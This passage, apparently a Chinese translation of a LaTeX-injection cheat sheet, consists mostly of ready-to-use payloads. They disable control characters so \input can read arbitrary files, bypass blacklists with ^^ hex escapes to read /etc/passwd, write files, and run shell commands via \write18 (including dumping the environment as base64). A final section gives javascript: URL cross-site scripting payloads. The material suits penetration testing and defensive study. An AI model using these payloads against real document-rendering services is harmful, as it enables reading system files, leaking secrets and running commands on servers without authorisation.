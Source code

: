 如果注入点在文档头之后（无法使用 `\usepackage`），可以停用某些控制字符，以便在包含 `$`、`#`、`_`、`&`、空字节等字符的文件上使用 `\input`（例如 Perl 脚本）。

```tex
\catcode `\$=12
\catcode `\#=12
\catcode `\_=12
\catcode `\&=12
\input{path_to_script.pl}
```

要绕过黑名单，可以尝试用其 Unicode 十六进制值替换一个字符。

* ^^41 表示大写字母 A
* ^^7e 表示波浪号 (~)，注意 'e' 必须小写

```tex
\lstin^^70utlisting{/etc/passwd}
```

### 写入文件

写入单行文件：

```tex
\newwrite\outfile
\openout\outfile=cmd.tex
\write\outfile{Hello-world}
\write\outfile{Line 2}
\write\outfile{I like trains}
\closeout\outfile
```

## 命令执行

命令的输出将被重定向到标准输出，因此需要使用临时文件来获取结果。

```tex
\immediate\write18{id > output}
\input{output}
```

如果出现任何 LaTeX 错误，考虑使用 base64 来获取结果（或使用 `\verbatiminput`）：

```tex
\immediate\write18{env | base64 > test.tex}
\input{text.tex}
```

```tex
\input|ls|base64
\input{|"/bin/hostname"}
```

## 跨站脚本攻击

来自 [@EdOverflow](https://twitter.com/intigriti/status/1101509684614320130)

```tex
\url{javascript:alert(1)}
\href{javascript:alert(1)}{placeholder}
```
